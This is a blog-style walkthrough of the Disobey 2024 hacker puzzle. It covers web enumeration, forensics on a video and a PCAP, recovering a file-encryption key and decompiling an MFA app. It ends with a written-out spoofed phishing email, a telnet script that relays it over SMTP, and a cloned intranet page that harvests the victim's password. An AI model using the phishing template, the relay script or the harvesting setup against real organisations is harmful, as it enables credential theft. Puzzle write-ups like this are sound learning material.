

# Epic Introduction ft. chatGPT
In this report, [HOLAZOo](https://www.zolaboo.com/blog/) and I embarked on a challenging journey into the world of cybersecurity and digital espionage. Together, we encountered the Disobey24 puzzle, a complex enigma centered around a compromised website, intriguing scripts, and encrypted files. Our combined efforts and technical skills were put to the test as we worked through the stages of this puzzle, uncovering secrets hidden within a mysterious video and infiltrating a secure intranet.

Throughout this adventure, I will take you step by step through our investigation, from dissecting suspicious scripts to decoding encrypted data. Together with my friend, we navigated the treacherous waters of digital forensics, delving into PCAP files, and reverse engineering binaries. Our goal was to solve the puzzle, and we spared no effort in decrypting the clues.

Please join me on this exciting journey, where collaboration and determination led us to uncover hidden credentials, manipulate email systems, and ultimately gain access to an intranet. Our adventure culminates in the pursuit of a coveted hacker badge, and I'm excited to share our experiences and discoveries with you.

# Lets begin

The Disobey24 puzzle starts from <mark>kouvostopankki.fi</mark>.<br>
Upon visiting the website, it becomes evident that it has been compromised by an entity named Ahven..

## Malicious script <a name="malScript"></a>
Upon inspecting the website sources, we identify a script source address: <mark>https://4hv3n.fi/script.js</mark>
<br>
After beautifying the script, it becomes more readable:

<br>
Within the script, we find a recruitment message and afterwards there seems to be some type of url at very end. By adding console.log(sdfghjklÃ) to the end of the script, we can reveal the content:
<br>

## Ahven <a name="ahven_fer"></a>
This host is not recognized, but by adding it to  <mark>"/etc/hosts"</mark> file and navigating to this site we get ```"Forbidden"```. Next we can try to find content with feroxbyster:
<br>


However, the only discovery is <mark>http://blackblackpinkbrown.4hv3n.fi/4/h/v</mark>, which leads to another "Forbidden" message. Upon closer inspection, this URL appears to spell "4hv3n," so we attempt to add the missing character and run Feroxbuster again:
<br>

This time, we have successfully found a video!<br>
Lets download video we just found and watch it (dah). Ahven member on video is telling that there is hidden credentials for IDS admin user in this video and our "job" is to intrude to kouvostopankki intranet.

So lets dive into it.

## mp4 forensic <a name="mp4foren"></a>
We perform a forensic analysis on the MP4 file using the command strings -n 9 mp4.cta. Unfortunately, no useful information is found. However, at approximately 28 seconds into the video, there is a brief flash with a few frames of white, revealing the username for the IDS backup file server: "KKP_IDS_ADMIN."
<br>

While analyzing the audio, we observe a password in the form of a spectrum view using Audacity: "THIS_PASSWORD_IS_SECURE."
<br>

Now we got credentials for IDS admin, but where is this backup server?

## Finding backup <a name="findBackup"></a>
By starting feroxbuster at ```"https://kouvostopankki.fi"``` there seems to be backup url and 401 code:
<br>

Browsing to ```"https://kouvostopankki.fi/backup/~operator"``` we encounter a login popup. Using the credentials obtained from the video, "KKP_IDS_ADMIN" and "THIS_PASSWORD_IS_SECURE," we discover a PCAP file.
<br>

## PCAP <a name="pcapFile"></a>

In the PCAP file there is several interesting sections, including download of ```"bash tcp reverse-shell"```<br>
emails: 
<br>

reverse-shell session:
<br>

and some telcom session:
<br>


## Reverse <a name="reversing"></a>
Exporting objects from the PCAP, we get binary that was used in a reverse-shell session to probably encrypt the user's files. Investigating these encrypted files that a possible attacker ran through base64 in a reverse-shell session, decoding them with base64 the data is still unreadable.
<br>

Reversing binary with ghidra it seems that data in files is encrypted in 16bytes block. Pseudo code doesn't make sense for this, so investigating this via gdb we can solve this encryption logic. At first it only did some shifting for file but investigating there was check if PID was traced, so first some modifications to binary:<br>
Since the binary checks if it is being traced by reading it is reading own status from /proc/self/status and checking the TracerPID, by modifying this 'JN' command to a 'JNZ' command, we can run it as if it were not being debugged.

We start this debbuging with Ghidra, where we are trying to find some "meaningful" function what seems something like encryption.<br>

<br>
 the most intriguing function is ```FUN_00101721```, which is called at ```0x555555555ad0```. This location will serve as our starting point for the first breakpoint in GDB.

 Another point was within the ```FUN_00101721``` and that was ```FUN_0010146A```, (This function was never exectued if that earlier mentioned TracerPID check was something else than 0).<br>
 <br>

I was unable to reverse this, so time to start GDB and figure out what's happening.

## Block Cipher logic <a name="revCipher"></a>

Running the script a couple of times via GDB with easily recognizable inputs, in this case KEY: AAAABBBBCCCCDDDD and cleartext: ABCDEF... we finaly identify block cipher logic at address 0x5555555555dd -->.<br>

<br>

The encryption process begins by initializing the cleartext and padding it to a multiple of 16 bytes. Subsequently, the data is processed in 16-byte blocks through an iterative loop.

During each iteration, the following values are utilized:

- The current encryption key is located at RBP-0x23.
- The Initialization Vector (IV) or the previous block's encrypted character value, is at RBP-0x22.
- The next cleartext character is at RBP-0x21.<br>

For the first 16-byte block, the entire IV value for the block is held at a specific memory location, 0x555555555905 & 0x555555555910 (e.g., 0x8948ffffff2cbd89e0ec8148e5894855). These values are combined through XOR operations:<br>
KEY ^ IV ^ B1CHR1 -> B1ENC1

In subsequent blocks after the first, the process remains similar, but the IV now corresponds to the previous block's encrypted character. In essence, the encryption process can be summarized as follows:
KEY ^ IV ^ B1CHR1 -> B1ENC1 ^ KEY ^ B2CHR1 -> B2ENC1 ^ KEY ^ B3CHR1

Here, 'B[X]' represents the block number, and 'CHR[X]' or 'ENC[X]' denotes the character in that specific block.


### Reversing key <a name="revKey"></a>

In the PCAP, there were three different files, but one of them should include magic bytes, and that file is an APK. Therefore, it should be possible to reverse it since we know the value of X in the first block and encrypted character (dah). Additionally, we know what the APK file's magic bytes are ('0x504B0304'). We can start reversing the files using the following logic:

```KEY ^ IV ^ B1CHR = B1ENC -> B1ENC ^ IV ^ B1CHR = KEY```

We initially attempted this approach with the first bytes, but it didn't work out (found later on what happened there*). Next, we tried with the second and third bytes, and we made progress:

```python
>>> hex(0x6d ^ 0x48 ^ 0x50)
'0x75'
>>> hex(0x83 ^ 0x89 ^ 0x4b)
'0x41'
>>> hex(0x3d ^ 0xe5 ^ 0x03)
'0xdb'
>>> hex(0x51 ^ 0x48 ^ 0x04)
'0x1d'
```
Here, we have 4 bytes from key. We can now try to "open" some files with this, starting with employees.csv:
```python
>>> chr(0x75 ^ 0x48 ^ 0x5b)+chr(0x41 ^ 0x89 ^ 0xa1)+chr(0xdb ^ 0xe5 ^ 0x4c)+chr(0x1d ^ 0x48 ^ 0x26)
'firs'
```
"Hard" to guess, but this could be "firstname" which means it's possible to reverse the next 5 bytes more!
Keep going like this there is finaly almost full key: ```"0x??7541db1dd06c035016a259d97b687d"```

What comes to that first byte tho? Investigating the logic behind and reading pseudo code with ghidra, I found that there was piece missing from it: Before passing the file to the encryption function, the code checks the file size, but also it places this size to address where our clear text is located in first position. This size was first reversed with 'BITWISE NOT' operator and then used this value in a 'BITWISE AND' operator with value '0xf'.<br>

<br>This operation yielded our very first character to fill our encryption logic.<br>
Now we know this, we can reverse that too and here is the full key that was used to encrypt the files: ```"0xb57541db1dd06c035016a259d97b687d"```

### Decrypting all files <a name="decryptFiles"></a>

After solving the key, we can proceed to write code to decrypt all files:
```python
import base64

encFiles=["mfa.apk.enc","employees.csv.enc","sadevesi.txt.enc"]
block_size = 16
myKey=""


with open("myKey.bin", 'rb') as key:
    myKey = key.read()

for encFile in encFiles:
    plaintext = []


    with open(encFile, 'rb') as file:
        IV = bytes.fromhex("554889e54881ece000000089bd2cffff")
        lastBlock=""
        currentBlock=""
        while True:
            
            block = file.read(block_size)
            currentBlock=block

            if not block or len(block) != 16:
                break
            
            for index in range(0,16):
                curren_byte = currentBlock[index]
                IV_Val = IV[index]
                key_val = int(decoded_bytes[index])
                test = ""

                test = key_val ^ IV_Val ^ curren_byte
                plaintext.append(test)


            IV=currentBlock
    bPlaintext = bytes(plaintext)


    with open("decryptedFiles/"+encFile.replace(".enc", ""), 'wb') as f:
        f.write(bytes(bPlaintext))
```
# Credentials <a name="creds"></a>

## MFA.apk & MFA Token <a name="mfaapk"></a>

Next interesting part is the MFA.apk, decompiling it using jadx-gui we can read whats under the hood:
<br>
In the MainActivity it constructs a url, but the data within is encrypted, but luckily there is DecryptString class available, which can be easily copy/pasted and used as it is!<br>
<br>

And here we have all information that we need to make request to /get_code:<br>
```
https://kouvostopankki.fi/get_code?id=
Authorization
Bearer 0e3001c91f1c4617d334eb95ee99f2b78a5b63bfde640571669f2b44f8e7ccb1
Host
intranet.kouvostopankki.fi
```

The URL for the request takes an 'id' parameter, which can be extracted from the 'employees.csv' file, which we decrypted earlier:<br>
<br>

So Amadea ID is: 88426, now building GET request and testing it:
<br>

And so we have working MFA request.


## Email <a name="phissingEmail"></a>

So far, we have a possible username and MFA token. The only missing part now is the password for the Amadea user. There was one base64-encoded password in the pcap file, but according to emails, it is changed already and also... It's not working...<br>
After reading the emails, it appears that SpamAssassin 3.4.6 is in use:<br>
<br>
Seems like it is checking if email came from domain, does it have HTML body and DGIM. Also in these emails, they informs that they are "deploying stronger spam filtering measures and implementing strict SPF checks to enhance our email security.". 

At first I tried to connect to mail server ```mx.kouvostopankki.fi:587``` and send some "totally safe" emails to amadea, but no luck in there.


 Now, I will proceed to check DNS records.
```bash
dig txt kouvostopankki.fi

; <<>> DiG 9.18.12-0ubuntu0.22.04.2-Ubuntu <<>> txt kouvostopankki.fi
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 41082
;; flags: qr rd ra; QUERY: 1, ANSWER: 2, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 65494
;; QUESTION SECTION:
;kouvostopankki.fi.             IN      TXT

;; ANSWER SECTION:
kouvostopankki.fi.      86400   IN      TXT     "v=spf1 a mx -all"
kouvostopankki.fi.      86400   IN      TXT     "Disobey 2024 hacker puzzle"

;; Query time: 39 msec
;; SERVER: 127.0.0.53#53(127.0.0.53) (UDP)
;; WHEN: Thu Sep 14 11:44:09 EEST 2023
;; MSG SIZE  rcvd: 114

```

seems like that only the domain's A record and MX records are authorized to send emails for the domain, and any other source should result in a hard SPF failure.<br>

But what a luck, ```kouvostopankki.fi``` domain had a telecom service running on port ```42851``` that creates connections from its domain to other endpoints. I confirmed this by successfully establishing a connection back to my endpoint:<br>
<br>

Also another neat thing: we cannot verify if this service is capable of handle TLS connection (not likely) since it doesn't inform if connection is dropped. However, there seems to be an open SMTP to use instead of SMTPS. This we can confirm by fact that if there is no confirmation that data is sent like there is in valid connection when it informs that ```Sending data: mydata```.<br>

#### No connection
<br>

#### Connection to SMTP
<br>

The next step is to create a convincing phishing email for Amadea since, according to emails he/she/something_else_what has some problems with phissing emails. Also there is mentioned that Pinja will inform with intranet address since Amadea lost his/her/dont_even... bookmarks and intranet address with it.

<br>


Alright, after creating a phishing email based on insights from the PCAP files and knowing that Amadea will be informed of the address through it, we're ready to see what happens when we send it. The sender of this email will be Pinja, one of the individuals in the email conversation. Here's the email content:

```html
'''Subject: Re: Spam issues
From: Pinja Pirivirkkala <pinja.pirivirkkala@kouvostopankki.fi>
To: =?UTF-8?Q?Amadea_Harjum=c3=b6tt=c3=b6?=
 <amadea.harjumotto@kouvostopankki.fi>
Date: Wed, 13 Sep 2023 21:41:19 +0300
References: <c5998c26-14fd-bd3f-c95e-6ac5099a7ff3@kouvostopankki.fi>
 <99ffe330-8052-fc37-18f8-f7e253600ccf@kouvostopankki.fi>
 <e8e8137c-a43f-0eae-f41a-ac25fc533afd@kouvostopankki.fi>
In-Reply-To: <e8e8137c-a43f-0eae-f41a-ac25fc533afd@kouvostopankki.fi>

<!DOCTYPE html>
<html>
<body>
    <p>Hello again!</p>
    <a href="http://<myipaddress>:<myport>/index.html">Heres intranet address for you.</a>
    <p>Stay safe!</p>
    <br>
    <p>Warm regards,</p>
<p>Pinja Pirivirkkala</p>
<p>IT Department</p>
<p>Kouvostopankki</p>
</body>
</html>
```
### Password <a name="pass"></a>
To work with the Telecom service, which can only take one line at a time, I've written a Python script for this:

```python

import telnetlib

mailHost="80.69.175.118\n\r"
mailPort="25\n\r"
TChost="kouvostopankki.fi"
TCport=42851

pinja="pinja.pirivirkkala@kouvostopankki.fi"
amadea="amadea.harjumotto@kouvostopankki.fi"

elhoCMD=f"EHLO {TChost}\n\r"
tlsCMD='STARTTLS\n\r'
fromCMD=f'MAIL FROM: {pinja}\n\r'
toCMD=f'RCPT TO: {amadea}\n\r'

payload='''Subject: Re: Spam issues
From: Pinja Pirivirkkala <pinja.pirivirkkala@kouvostopankki.fi>
To: =?UTF-8?Q?Amadea_Harjum=c3=b6tt=c3=b6?=
 <amadea.harjumotto@kouvostopankki.fi>
Date: Wed, 13 Sep 2023 21:41:19 +0300
References: <c5998c26-14fd-bd3f-c95e-6ac5099a7ff3@kouvostopankki.fi>
 <99ffe330-8052-fc37-18f8-f7e253600ccf@kouvostopankki.fi>
 <e8e8137c-a43f-0eae-f41a-ac25fc533afd@kouvostopankki.fi>
In-Reply-To: <e8e8137c-a43f-0eae-f41a-ac25fc533afd@kouvostopankki.fi>

<!DOCTYPE html>
<html>
<body>
    <p>Hello again!</p>
    <a href="http://<ip>:<port>/index.html">Heres intranet address for you.</a>
    <p>Stay safe!</p>
    <br>
    <p>Warm regards,</p>
<p>Pinja Pirivirkkala</p>
<p>IT Department</p>
<p>Kouvostopankki</p>
</body>
</html>

.
'''

try:
    tn = telnetlib.Telnet(TChost, TCport, timeout=10)
except Exception as e:
    print(e)


welcome_msg=tn.read_until(b'Target address:', timeout=20).decode()
print(welcome_msg)
tn.write(mailHost.encode())


x=tn.read_until(b'port:', timeout=2)
tn.write(mailPort.encode())
print(x)

x=tn.read_until(b'transmission):', timeout=2)

tn.write(elhoCMD.encode())

x=tn.read_until(b'Sending data: ', timeout=2)

tn.write(fromCMD.encode())
x=tn.read_until(b'Sending data: ', timeout=2)

tn.write(toCMD.encode())
x=tn.read_until(b'Sending data: ', timeout=2)

# Start sending data:
tn.write(b"DATA\n\r")
x=tn.read_until(b'Sending data: ', timeout=2)
print(x)

for line in payload.split("\n"):
    tn.write((line+"\n\r").encode())
    waitingFor=f"Sending data: {line}"
    _=tn.read_until(waitingFor.encode(), timeout=3)
```
As for the server, I've ensured that the phishing address closely mimics intranet.kouvostopankki.fi by copying its source code.<br>
<br>

I'll be using python http.server along with netcat for this task.<br>
 The plan is to execute a script that will prompt Amadea to open the email. Once that's done, the href link will be opened to our server. At this point, we'll quickly switch from the HTTP server to netcat to capture the POST request data, which should contain the username and password.

<br>

# Get the badge! <a name="hackerbadge"></a>

Now that we have all the necessary information, it's time to put it to the test
```
Username: amadea.harjumotto@kouvostopankki.fi
Password: hitman_Vic_Le_Big_Mac_020120
MFA: generated
``` 

Lets go and try to login to intranet!

We will attempt to log in to the intranet. Upon successful login, it redirects us to the MFA authentication page:<br>
<br>

We will retrieve the code from the endpoint we discovered earlier and submit it. This action results in another redirect, eventually leading us to the Holvi address, where we can finally purchase our well-deserved hacker badge!

<br>

Do check other writeups also:
- https://gitlab.com/Depili/disobey-2024
- https://gofore.com/en/disobey-2024-hacker-puzzle-walkthrough/

